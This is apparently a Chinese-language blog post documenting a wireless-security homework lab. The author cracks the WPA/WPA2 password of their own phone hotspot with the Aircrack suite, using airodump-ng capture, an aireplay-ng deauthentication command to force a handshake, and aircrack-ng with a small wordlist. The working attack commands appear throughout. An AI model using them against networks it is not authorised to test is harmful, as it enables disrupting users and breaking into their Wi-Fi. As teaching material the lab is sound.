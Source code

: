 ```yaml
---
title: 窥间伺隙：Aircrack 套件破解 WPA/WPA2 密码
date: 2020-10-18 13:24:01
tags:
  - Kali
  - 网络
  - 实践记录
categories:
  - 安全工具
featuredImage: 0.jpg
---
```


《无线网络安全》作业。梦回大一。

<!--more-->

## 准备工作

手机开启热点，设置弱密码 `merc123321`，热点 SSID 为 `nova 4`。物理机连接 `nova 4` 无线网络作为被害主机。

![图 1](1.png)

为 Kali 虚拟机添加无线网卡，随后即可在 `ifconfig` 的输出中看到 `wlan0` 网卡：

![图 2](2.png)

首先启动监听：

```shell
$ sudo airmon-ng start wlan0
```

结果如图：

![图 3](3.png)

此时 `ifconfig` 可以看到 `wlan0mon` 监听网卡：

![图 4](4.png)

随后扫描无线网络：

```shell
$ sudo airodump-ng wlan0mon
```

结果如图，可以看到 `nova 4` 网络的 BSSID 为 `D8:9B:3B:9E:AB:A9`。

![图 5](5.png)

利用该 BSSID 过滤掉其余网络流量：

```shell
$ sudo airodump-ng -c 11 --bssid D8:9B:3B:9E:AB:A9 -w psk wlan0mon
```

结果如图：

![图 6](6.png)

## 捕获 WPA 握手包

此时我们需要捕获到 WPA 握手包，因此可以攻击一个已经连接到该网络的主机（即我们的物理机），让它强制掉线并重连产生握手包。

首先查看被害主机 MAC 地址：

![图 7](7.png)

可以看到 MAC 地址为 `F4:8C:50:9F:E5:43`。实际上，在前面 `airodump-ng` 时的界面中也可以直接看到连接了该网络的主机 MAC 地址。随后发送 `DeAuth` 包使其掉线：

```shell
$ sudo aireplay-ng -0 1 -a D8:9B:3B:9E:AB:A9 -c F4:8C:50:9F:E5:43 wlan0mon
```

出现 `WPA handshake` 即捕获到了握手包，可以停止捕获了。

![图 8](8.png)

## 口令破解

此时在目录下会生成 `psk-01.cap` ，我们使用 `aircrack-ng` 进行口令破解：

```shell
$ sudo aircrack-ng -w password.lst -b D8:9B:3B:9E:AB:A9 psk*.cap
```

使用的字典中包含了 `merc123321` 这个真正的密码：

```shell
$ cat password.lst
merc123
merc1234
merc123456
123merc
1234merc
123456merc
merc123321
merc321123
```

最后即可成功破解：

![图 9](9.png)
